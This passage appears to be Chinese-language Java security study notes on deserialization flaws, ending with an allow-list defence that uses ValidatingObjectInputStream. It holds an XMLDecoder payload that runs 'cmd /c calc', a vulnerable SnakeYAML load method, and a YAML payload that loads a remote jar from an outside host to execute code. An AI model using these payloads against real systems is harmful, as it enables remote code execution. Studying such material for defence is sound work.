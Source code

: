 ```xml
                <string>cmd</string>
            </void>
            <void index="1">
                <string>/c</string>
            </void>
            <void index="2">
                <string>calc</string>
            </void>
        </array>
        <void method="start" />
    </object>
</java>

```
![](https://img.l1uyun.one/javasec-反序列化_image_2.png)
#### SnakeYaml
SnakeYAML 反序列化,
SnakeYAML 在反序列化时可以指定 class 类型和构造方法的参数,
结合 JDK 自带的 javax.script.ScriptEngineManager 类，可实现加载远程 jar 包，完成任意代码执行.
```java
// 远程服务器支持用户可以输入yaml格式的内容并且进行数据解析，没有做沙箱，黑名单之类的防控

public void yaml(String content) {
    Yaml y = new Yaml();
    y.load(content);
}
```
只不过传输的数据不是object格式了,而是yaml格式
使用了[yaml-payload](https://github.com/artsploit/yaml-payload)这个工具,编译得到一个payload.jar,放在wsl里面,并且开一个web服务器.
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://192.168.10.7:8000/yaml-payload.jar"]
  ]]
]
```
![](https://img.l1uyun.one/javasec-反序列化_image_3.png)

### 安全代码
#### 黑白名单

```java
// 使用Apache Commons IO的ValidatingObjectInputStream，accept方法来实现反序列化类白/黑名单控制

public String safe(String base64) {
    try {
        base64 = base64.replace(" ", "+");
        byte[] bytes = Base64.getDecoder().decode(base64);

        ByteArrayInputStream stream = new ByteArrayInputStream(bytes);
        ValidatingObjectInputStream ois = new ValidatingObjectInputStream(stream);

        // 只允许反序列化Student class
        ois.accept(Student.class);
        ois.readObject();

        return "ValidatingObjectInputStream";
     } catch (Exception e) {
        return e.toString();
}
```